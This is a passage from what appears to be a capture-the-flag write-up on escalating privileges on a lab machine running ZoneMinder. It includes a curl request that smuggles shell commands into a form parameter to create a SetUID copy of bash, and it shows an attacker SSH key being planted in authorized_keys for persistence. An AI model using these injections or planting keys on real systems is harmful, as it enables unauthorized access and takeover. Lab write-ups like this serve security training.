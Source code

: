 The output is not returned, so it’s blind, but that’s ok.

#### Shell

To get a shell, I’ll just make a copy of `bash` and set it SetUID/SetGID:

```
oxdf@hacky$ curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;cp /bin/bash /tmp/0xdf;chmod 6777 /tmp/0xdf&__csrf_magic=${CSRF}"

```

From the shell as matthew:

```
matthew@surveillance:~$ ls -l /tmp/0xdf
-rwsrwsrwx 1 zoneminder zoneminder 1396520 Apr 18 20:45 /tmp/0xdf

```

Running with with `-p` returns a shell with effective ids of zoneminder:

```
matthew@surveillance:~$ /tmp/0xdf -p
0xdf-5.1$ id
uid=1000(matthew) gid=1000(matthew) euid=1001(zoneminder) egid=1001(zoneminder) groups=1001(zoneminder),1000(matthew)

```

### Upgrade to SSH

I like to have a shell fully as the user I’m working as, so I’ll get a shell over SSH. There’s no `.ssh` directory in `/home/zoneminder`, so I’ll add one:

```
0xdf-5.1$ ls -la
total 24
drwxr-x--- 3 zoneminder zoneminder 4096 Apr 18 20:45 .
drwxr-xr-x 4 root       root       4096 Oct 17  2023 ..
lrwxrwxrwx 1 root       root          9 Nov  9 12:46 .bash_history -> /dev/null
-rw-r--r-- 1 zoneminder zoneminder  220 Oct 17  2023 .bash_logout
-rw-r--r-- 1 zoneminder zoneminder 3771 Oct 17  2023 .bashrc
-rw-r--r-- 1 zoneminder zoneminder  807 Oct 17  2023 .profile
drwxrwxr-x 2 zoneminder zoneminder 4096 Apr 18 20:45 .ssh

```

It’s important that my shell has both effective user and group ids as zomeinder, or I won’t be able to set the permissions correctly:

```
0xdf-5.1$ chmod 700 .ssh/
0xdf-5.1$ ls -la
total 24
drwxr-x--- 3 zoneminder zoneminder 4096 Apr 18 20:45 .
drwxr-xr-x 4 root       root       4096 Oct 17  2023 ..
lrwxrwxrwx 1 root       root          9 Nov  9 12:46 .bash_history -> /dev/null
-rw-r--r-- 1 zoneminder zoneminder  220 Oct 17  2023 .bash_logout
-rw-r--r-- 1 zoneminder zoneminder 3771 Oct 17  2023 .bashrc
-rw-r--r-- 1 zoneminder zoneminder  807 Oct 17  2023 .profile
drwx------ 2 zoneminder zoneminder 4096 Apr 18 20:45 .ssh
0xdf-5.1$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > .ssh/authorized_keys
0xdf-5.1$ chmod 600 .ssh/authorized_keys

```
